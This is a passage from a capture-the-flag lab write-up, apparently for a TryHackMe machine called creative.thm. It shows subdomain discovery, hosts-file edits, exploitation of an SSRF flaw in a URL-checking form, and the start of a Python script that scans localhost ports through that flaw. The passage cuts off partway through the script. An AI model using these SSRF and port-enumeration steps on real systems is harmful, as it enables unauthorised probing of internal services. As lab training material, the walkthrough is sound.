 And in a couple of seconds we can see that there is one: beta.creative.thm, let's add it to the hosts file as well:
```bash
sudo nano /etc/hosts
```
```
MACHINE-IP     creative.thm    beta.creative.thm
```

<br/>

### Gaining Access 
Now we can navigate to it:
```
http://beta.creative.thm
```

In this new website we can see a web-form where we can submit an URL to check if it is alive.

Capturing a test request via Burp Suite proxy feature i was able to see that after you write an URL it get's url encoded and then posted, we should get a response either "dead" or the page content.
I am curious if it can open files on my machine:

On your machine crate a random file with "hello" inside
```bash
nano test.txt
```

in the same directory create a webserver with python (default port 8000)
```bash
 python3 -m http.server 
```

Now into the subdomain webpage let's try to view the test file by inserting:
```
http://YOUR_IP:8000/test.html
```

It does.
An interesting happened when i tried to insert the localhost as IP, it opened it this means that we can communicate with internal resources, AKA we are doing SSRF attacks (Server Side Request Forgery).

Knowing of this vulnerability we can enumerate the localhost to check if there are any open services we can communicate with.
We can either do this by testing all ports by hand inserting:
```
http://localhost:n
```
where `n` is the port number -> not suggested lol.

Or find a tool that does it for us, or use burp suite intruder or create our own script, you can chose the one that you prefer.
Also Intruder will be very slow if you have the community version.

I had nothing better to do so i created a python script, to make it work you have to create a text file containing the headers of the request captured before with burp suite.
It will stop when it find an open port.
```python
import requests  
  
base_url = 'http://beta.creative.thm'  
  
def read_headers_from_file(file_path):  
    headers = {}  
    with open(file_path, 'r') as f:  
        for line in f:  
            key, value = line.strip().split(': ')  
            headers[key] = value  
    return headers  
  
```
